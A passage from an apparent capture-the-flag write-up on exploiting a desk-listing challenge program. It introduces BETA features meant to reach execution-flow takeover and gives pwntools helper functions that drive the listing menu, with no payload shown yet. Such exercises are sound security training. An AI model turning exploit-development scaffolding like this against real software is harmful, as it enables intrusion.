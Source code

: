 ```
Reminder: as a FDM GOLD subscriber, you have access to some extra features:
 - Login authentication for improved security
 - Customizable colors in listing descriptions (BETA)
 - Listing preview (BETA)
 - Remove listings
```

_Those new features will be useful to gain full exeuction flow takeover._

A new BETA menu is introduced in the listing insertion phase.

![new Ad insertion BETA menu](writeup/img6.png "new Ad insertion BETA menu")

And here are some functions to interact with the new menu with pwntools:

```py
def add_listing_beta():
    sla(b'> ', b'1') # add desk listing

    sla(b'Do you want to try out our new BETA features? (y/n): ', b'y')


def add_listing_beta_insert(name, desc):
    sla(b'> ', b'1') # insert data

    sla(b'Insert the listing name (displayed in the listings page): ', name)
    sla(b'Insert the color-formatted listing description: ', desc)
    sla(b'Insert your target listing price: ', b'1')
    sla(b"Specify your desk's measures (Depth x Width x Height) in centimeters: ", b'1x1x1') # send measures


def add_listing_beta_preview():
    sla(b'> ', b'2') # preview ad


def add_listing_beta_confirm():
    sla(b'> ', b'3') # confirm data
```
